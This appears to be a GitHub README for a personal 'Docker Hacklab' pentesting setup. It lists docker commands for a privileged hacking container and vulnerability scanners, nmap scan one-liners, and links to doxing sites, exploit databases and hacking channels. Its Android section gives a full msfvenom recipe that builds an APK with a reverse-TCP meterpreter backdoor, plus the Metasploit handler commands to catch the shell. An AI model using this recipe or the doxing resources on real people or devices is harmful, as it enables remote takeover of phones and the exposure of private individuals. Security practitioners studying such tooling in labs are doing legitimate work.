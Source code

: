 Docker Hacklab
===

> My personal hacklab

Quick Start
---

```bash
# Run Hacklab
docker run -d --name hacklab --net=host --privileged -it jcherqui/docker-hacklab

# Vuln Scanners
docker run -d --name nessus -p 8834:8834 infoslack/nessus
docker run -d --name openvas -p 443:443 -p 9390:9390 -p 9391:9391 mikesplain/openvas
```

Doxing/OSINT
---

- http://www.peekyou.com/
- https://pipl.com/

Cheat Sheet
---

- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

Autopwn
---

https://github.com/ngalongc/AutoLocalPrivilegeEscalation

ClickJacking
---

https://samy.pl/quickjack/

Android
---

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R > FILENAME.apk
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <ip> *
set LPORT <port>
exploit -j
```

NMAP
---

nmap -Pn --script=dns-brute <host> # Find subdomains of a website
nmap -Pn --script=mysql-info <host> # Find mysql version
nmap -Pn --script=http-sitenap-generator <host> # Display directory structure
nmap -sV --script=vulscan <host> # Display vuln
nmap -sV --script-args vulnscandb=exploit <host> # //
nmap -Pn --script=http-xssed <host> # Search on xssed.com if XSS vulnerability
nmap -sV  –script=http-sql-injection <host> # Test injection SQL

TOP Channels youtube
---

https://www.youtube.com/user/Hak5Darren/videos
https://www.youtube.com/user/DEFCONConference/videos
https://www.youtube.com/user/BlackHatOfficialYT/videos
https://www.youtube.com/user/JackkTutorials/videos
https://www.youtube.com/channel/UCO51Z4c1R8EPHZioGwgBmDw/videos
https://www.youtube.com/playlist?list=PLkRo97mCIn9lgvE7AskNsmwJVOlJX2zaI
https://www.youtube.com/channel/UC286ntgASMskhPIJQebJVvA/videos
https://www.youtube.com/user/gaytony10/playlists
https://www.youtube.com/user/bhargavtandel/videos

Links
---

- https://www.exploit-db.com/
- http://sectools.org/
- http://pwnwiki.io/
- https://www.cybrary.it/
- http://null-byte.wonderhowto.com/
- https://github.com/enaqx/awesome-pentest
- https://github.com/Hack-with-Github/Awesome-Hacking
- https://github.com/sindresorhus/awesome#security
- https://github.com/gchq/CyberChef
- https://hackademics.fr

License
---

MIT

Free Software, Hell Yeah !
